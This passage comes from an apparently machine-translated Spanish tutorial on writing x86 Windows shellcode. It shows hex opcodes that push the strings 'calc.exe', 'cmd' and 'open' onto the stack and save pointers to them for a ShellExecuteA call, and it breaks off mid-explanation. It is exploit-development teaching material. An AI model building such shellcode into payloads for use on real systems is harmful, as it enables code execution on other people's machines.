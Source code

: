    ```
    → ".exe"
    → "calc"
    ```
3.  tenemos que convertir a caracteres ASCII en valores hexadecimales. Podemos usar scripts bash o herramientas en línea para esto. como asciitohex o rapidtables. _http://www.asciitohex.com/ http://www.rapidtables.com/convert/number/ascii-to-hex.htm_

    ```
    → "\x2e\x65\x78\x65" > ".exe"
    → "\x63\x61\x6c\x63" > "calc"
    ```

¿Quieres empujar la cadena a la pila? Agregue el código de bytes de inserción al principio de cada línea (\x68)

```
   → "\x68\x2e\x65\x78\x65" // PUSH ".exe"
   → "\x68\x63\x61\x6c\x63" // PUSH "calc" 
```

1. Para terminar la cadena. Tenemos que agregar el valor \x00 justo después de calc.exe
   *   Necesitamos llenar de espacios, porque recuerda. Necesitamos enviar 4 bytes

       ```
       → "\x68\x20\x20\x20\x00" // the \x00 is the terminator, the \x20 is the hex value of space character
       → "\x68\x2e\x65\x78\x65" // PUSH ".exe"
       → "\x68\x63\x61\x6c\x63" // PUSH "calc"
       ```

### Creando nuestro shellcode - Para abrir un CMD <a href="#creating-our-shellcode---to-open-a-cmd" id="creating-our-shellcode---to-open-a-cmd"></a>

1.  Calcule los códigos de operación para enviar la cadena 'cmd' y 'open'

    ```
    → "\x68\x63\x6d\x64"       // PUSH "cmd" onto the stack
    → "\x68\x6f\x70\x65\x6e" // PUSH "open" onto the stack
    ```

    Tenga en cuenta que el primer PUSH no es de 4 bytes y no hay el terminador de cadena al final.

    ```
    → "\x68\x63\x6d\x64\x00"   // PUSH "cmd" and terminates the string with \x00 = now its 4 bytes
    →  "\x6A\x00"                      // PUSH 0: Terminates the string 'open' by directly pushing \x00 onto the stack
    → "\x68\x6f\x70\x65\x6e"   // PUSH "open"
    ```

* La función ShellExecuteA, requiere un puntero a estas cadenas, tendremos que guardar un puntero a cada cadena usando un registro.
* A continuación, guardaremos la posición actual de la pila en un registro. Cuando empujamos la cuerda, ESP se alineará con la parte superior de la pila. Por lo tanto, apuntará a la propia cadena.
* Almacenar este valor en un registro (como EBX o ECX) nos permite guardar un puntero a esa cadena. Luego solo tendremos que pasar el puntero como argumento de la función.
*   Para guardar el puntero en un registro: después de la instrucción push de nuestro shellcode
